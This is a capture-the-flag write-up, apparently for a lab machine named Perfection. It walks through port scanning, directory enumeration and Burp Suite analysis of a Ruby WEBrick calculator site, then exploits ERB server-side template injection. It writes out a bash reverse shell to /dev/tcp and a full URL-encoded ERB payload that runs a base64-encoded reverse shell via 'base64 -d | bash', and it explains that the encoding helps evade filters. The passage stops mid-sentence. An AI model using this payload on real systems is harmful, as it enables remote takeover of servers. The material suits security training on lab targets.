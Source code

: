 # Tutorial

Note: For better understanding I recommend reading first "Headless" machine as I explain some fundamentals there.

Let's start pinging:

(pic1)

Receives packets. Now let's start scanning the domain:

(pic2)

3 open ports. One ssh, http and http-alt. Let's analyze the http because it is a good way to start analyzing the webserver site. We begin by using gobuster to analyze the possible directories in the domain:

(pic3)

The URLs were analyzed and couldn't find any useful information on those URLs. Let's enter manually into the site:

(pic6)

The webpage is an interactive calculator. Visiting "About Us" and "Calculate your weighted grade" we find that there is a input section that interact with the site.

(pic7)

Let's get more information about this site to infere what kind of attacks is this site vulnerable to:

(pic4)

Observe that the site contains `Content-Type: text/html;charset=utf-8` and `Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)`. So this developer must have used Ruby to develop the site. Let's analyze the content:

(pic8)

There are no clues that the frontend is running Ruby (no `<% %>/erb/ruby/rhtml` keywords). As far as the analysis can go, it seems a normal html site. Nonetheless, from the previous pictures we know that the server is using WEBrick 1.7.0, which is a Ruby-based web server. This must be specifying that the backend is running Ruby.

Let's look on Google a bit of information by typing "server-side template injection ruby" to see if there is a way to inject malicious code. Checking on Github you can find "Ruby" section in this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=%5D).toArray())%20%7D%7D-,Ruby,-Ruby%20%2D%20Basic%20injections)

The only way we have to introduce a payload into the webserver is through the interactive calculator. So let's play with it obbeying its requirements described at the bottom. Using burpsuite and analyzing the request. We can observe that we can introduce a payload into the webserver. Nonetheless, we must know that we cannot use the same payload technique we used in Headless because Perfection is based on Ruby. Moreover, in one of the pictures we can observe that has XSS injection: Blocked. So instead of doing an XSS injection to get admin privileges, we are going to try to get a reverse shell to the Ruby webserver. The burpsuite analysis is the following:

(pic9)

#### Thinking about the payload

Now comes the tricky part of this machine. What would be the correct payload (among the possible ones) for this server?

Reading the previous URL, we find they have a specific case for ERB basic injection: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#ruby:~:text=ERB%3A-,%3C%25%3D%207%20*%207%20%25%3E,-Slim%3A
What is an ERB in Ruby? ERB (Embedded Ruby) is a templating system built into Ruby that allows you to embed Ruby code directly into your text files, including HTML, XML, or even plain text documents.

So, we know that the site uses html content, but the backend uses Ruby. So it is highly likely that the this ERB injection will work. We will embed an ERB command injection into the html site for the server to interpretate the command and get the reverse shell.

In the URL they show the case `<%= 7 * 7 %>`.
Nonetheless our goal is to inject a reverse shell into the Ruby webserver, not multiplying. So in Ruby terminology would be something of style:
`<%= system("echo + payload");=>'.
Also, when performing an ERB injection in a Ruby-based web application, URL encoding is necessary because the payload nedds to be sent as part of an HTTP request. So both the payload and the command injection must be URL encoded.
Reading this documentation (in Spanish) https://www.uv.es/jac/guia/hexawin.htm
The command injection must be as follows:
`<%25%3dsystem("echo+URLencoded(payload);%25>`.

Now is the moment to insert the payload. Let's prepare it.

##### The Payload

The payload used is going to be the same as in the previous machine `Headless`. The command is the following:
```
bash -i >& /dev/tcp/{IP}/{port} 0>&1
```
`bash -i` starts an interactive bash shell
`>& /dev/tcp/{IP}/{port} 0>&1`: Redirects the input and output of the bash shell (target) to a TCP connection to {IP} on port {port} (to our netcat listerner).

This effectively sets up a reverse shell, where the compromised server connects back to the attacker's machine, giving the attacker remote control over the server.

You must be aware that you cannot inject the payload directly. It is necessary to encode it into Base64. Why? Shell commands often contain special characters that could be misinterpreted by the server or web application. Also, characters like spaces or special symbols (<, >, &) can break the command or be deleted by security mechanisms from the server. So, encoding the command in base64 makes it less likely to be detected and blocked by such filters because the payload appears as a harmless string of alphanumeric characters. So, using the reasoning explained by encoding the reverse shell injection command into Base64 and later into URL encoding, the outcome is as follows:

(pic10)

##### The listener

Now, time to set up the listener:

(pic11)

##### Inject the reverse Shell

Time to inject the reverse shell. Using our previously encoded payload (first into base64 and later into URL encode) the final command injection is as follows:

category1=test1%0A<%25%3dsystem("echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC43Ni83MzczIDA%2BJjE%3D|+base64+-d+|+bash");%25>1

Why %0A at the beginning of the payload? For Ruby to interpretate test1 and then independently the payload as a newline.
The part `|+base64+-d+|+bash`in the injection payload is used to decode a base64-encoded string and then execute it as a shell command.
1. First ruby decodes the string in URL format
2. Then the first pipe `|` orders to decode the base64-encoded string
3. The result is then sent to a second pipe `|` that takes the decoded output and passes it as input to the `bash` command.
4. `bash` executes the input as a shell script

The base64 string decodes into:


